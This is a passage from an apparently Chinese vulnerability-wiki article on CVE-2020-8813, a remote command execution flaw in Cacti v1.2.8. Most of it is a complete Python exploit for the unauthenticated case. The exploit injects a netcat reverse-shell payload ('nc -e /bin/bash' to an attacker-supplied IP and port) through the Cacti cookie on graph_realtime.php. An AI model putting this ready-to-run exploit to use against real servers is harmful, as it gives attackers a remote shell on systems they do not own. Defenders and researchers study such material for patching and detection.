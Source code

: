 运行漏洞利用代码后，我们将获得以下内容：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8813)Cactiv1.2.8远程命令执行漏洞/media/rId38.png)

### 未经身份验证的利用

如果Cacti启用了"来宾实时图"特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：

    #!/usr/bin/python3
     
    # Exploit Title: Cacti v1.2.8 Unauthenticated Remote Code Execution
    # Date: 03/02/2020
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE: CVE-2020-8813
    # Vendor Homepage: https://cacti.net/
    # Version: v1.2.8
    # Tested on: CentOS 7.3 / PHP 7.1.33
     
    import requests
    import sys
    import warnings
    from bs4 import BeautifulSoup
    from urllib.parse import quote
     
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
     
     
    if len(sys.argv) != 4:
        print("[~] Usage : ./Cacti-exploit.py url ip port")
        exit()
     
    url = sys.argv[1]
    ip = sys.argv[2]
    port = sys.argv[3]
     
    def send_exploit(url):
        payload = ";nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s" % (ip, port)
        cookies = {'Cacti': quote(payload)}
        path = url+"/graph_realtime.php?action=init"
        req = requests.get(path)
        if req.status_code == 200 and "poller_realtime.php" in req.text:
            print("[+] File Found and Guest is enabled!")
            print("[+] Sending malicous request, check your nc ;)")
            requests.get(path, cookies=cookies)
        else:
            print("[+] Error while requesting the file!")
     